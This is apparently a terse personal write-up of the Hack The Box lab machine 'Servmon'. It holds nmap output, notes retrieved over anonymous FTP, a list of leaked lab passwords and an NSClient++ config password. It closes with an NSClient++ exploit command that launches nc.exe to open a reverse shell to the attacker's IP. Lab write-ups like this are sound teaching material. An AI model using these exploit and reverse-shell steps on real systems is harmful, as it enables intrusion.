

# Servmon writeup
```
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  11:05AM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open     ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds?
2107/tcp filtered msmq-mgmt
5666/tcp open     tcpwrapped
6699/tcp open     napster?
8443/tcp open     ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| http-methods: 
|_  Supported Methods: GET
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:   1d03 0c40 5b7a 0f6d d8c8 78e3 cba7 38b4
|_SHA-1: 7083 bd82 b4b0 f9c0 cc9c 5019 2f9f 9291 4694 8334
|_ssl-date: TLS randomness does not represent time
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.91%T=SSL%I=7%D=1/12%Time=5FFDCA61%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocation
SF::\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0s\0e\0\0\0l\0\0\0\0\0\x02\
SF:0\0\0\0\0\0\0s\0d\0a\0y\0:\0T\0h\0u\0:\0T\0h\0u\0r\0s\0")%r(HTTPOptions
SF:,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x
SF:20found")%r(FourOhFourRequest,36,"HTTP/1\.1\x20404\r\nContent-Length:\x
SF:2018\r\n\r\nDocument\x20not\x20found")%r(RTSPRequest,36,"HTTP/1\.1\x204
SF:04\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(SIPOpti
SF:ons,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20no
SF:t\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-12T16:16:17
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 12 17:14:03 2021 -- 1 IP address (1 host up) scanned in 257.27 seconds

nmap --script smb* -p445,135 10.10.10.184
```


kali@kali:~/htb/boxes/servmon/10.10.10.184$ tree ftp/
ftp/
└── Users
    ├── Nadine
    │   └── Confidential.txt
    └── Nathan
        └── Notes to do.txt

3 directories, 2 files


kali@kali:~/htb/boxes/servmon/10.10.10.184$ cat ftp/Users/Nadine/Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards


kali@kali:~/htb/boxes/servmon/10.10.10.184$ cat ftp/Users/Nathan/Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint


NSClient++

https://github.com/RalfHacker/nsclient-0.5.2.35-RCE-exploit/blob/master/exploit.py


kali@kali:~/htb/boxes/servmon/10.10.10.184$ smbclient -L '\\10.10.10.184'
Enter WORKGROUP\kali's password: 
session setup failed: NT_STATUS_ACCESS_DENIED


There was some bug not showing me port 80, for some reason only the full scan revealed it


> 1) Change the password for NVMS - Complete


1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$


Nadine L1k3B1gBut7s@W0rk


password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1


PS C:\Users\Nadine\Desktop>  [System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      18363  0





python3 48360.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c "c:\\temp\\nc.exe -e cmd 10.10.14.6 1234"


Horrible box!